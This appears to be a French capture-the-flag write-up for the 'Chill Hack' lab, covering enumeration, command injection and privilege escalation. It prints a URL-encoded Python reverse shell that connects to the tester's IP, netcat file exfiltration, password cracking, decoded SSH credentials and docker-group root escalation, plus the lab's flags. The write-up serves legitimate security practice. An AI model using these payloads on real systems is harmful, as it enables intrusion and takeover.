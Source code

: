 #Chill Hack

##Enumeration

Je commence par un scan nmap 

![](image/Nmap.jpg)

Je peux voir qu'il y a 3 ports ouverts

1. 21/ftp
2. 22/ssh
3. 80/http

Il est possible de se connecter en ftp grâce au login "anonymous"

![](image/FtpConnect.jpg)

Je remarque un fichier "note.txt" qu'on télécharge grâce à "get note.txt".

    note.txt : Anurodh told me that there is some filtering on strings being put in the command -- Apaar

J'utilise ensuite gobuster pour bruteforce les dossiers cachés 

![](image/gobuster.jpg)

Je remarque un dossier /secret 

![](image/secret.jpg)

J'essaie la commande "id", la page nous renvoie le bon output

![](image/id.jpg)

## Reverse Shell

Je vais donc upload un reverse shell python tout en lançant un listener net cat en parallele

    nc -lvnp 1244

![](image/burp.jpg)

    Rev Shell python : p\ython3/files%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.14.188%22,1244));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)'

Bingo, j'ai un reverse shell

Je remarque un fichier "hacker.php" dans le dossier /var/www/files

![](image/hackerphp.jpg)

Je télécharge "images/hacker-with-laptop_23-2147985341.jpg" grâce à netcat

>nc -w 3 10.9.14.188 1234 < hacker-with-laptop_23-2147985341.jpg

> nc -lvn 10.10.104.157 > hacker-with-laptop_23-2147985341.jpg

J'utilise "steghide" pour extraire les données cachées dans l'image grâce auquel on récupère un zip "backup.zip"

Avec john je craque le mdp. 

>john hash -w=/usr/share/wordlists/rockyou.txt

    pass1word        (backup.zip/source_code.php)

La backup contient un fichier "source_code.php"

![](image/SourceCode.jpg)

Ce code source nous révèle un username et un mot de passe encodé en base64

![](image/base64Decode.jpg)

    Username : Anurodh 
    Password : !d0ntKn0wmYp@ssw0rd

Ces identifiants nous permettent de se log en ssh avec l'username "anurodh"

![](image/sudo-l.jpg)

On peut éxécuter /home/apaar/.helpline.sh en tant que "apaar" sans mot de passe

![](image/helpline.sh.jpg)

![](image/userflag.jpg)

    user flag : {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

## Root Flag

Je me reconnecte sur anurodh en ssh 

Je sai qu'elle est membre du groupe "docker"

![](image/id2.jpg)

Grâce à GTFOBins on sait qu'une escalation de privilège est possible

https://gtfobins.github.io/gtfobins/docker/

![](image/PrivEv.jpg)

Bingo j'ai les privilièges root

Il ne me reste plus qu'à récupérer le flag

![](image/root%20flag.jpg)

    root flag: {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
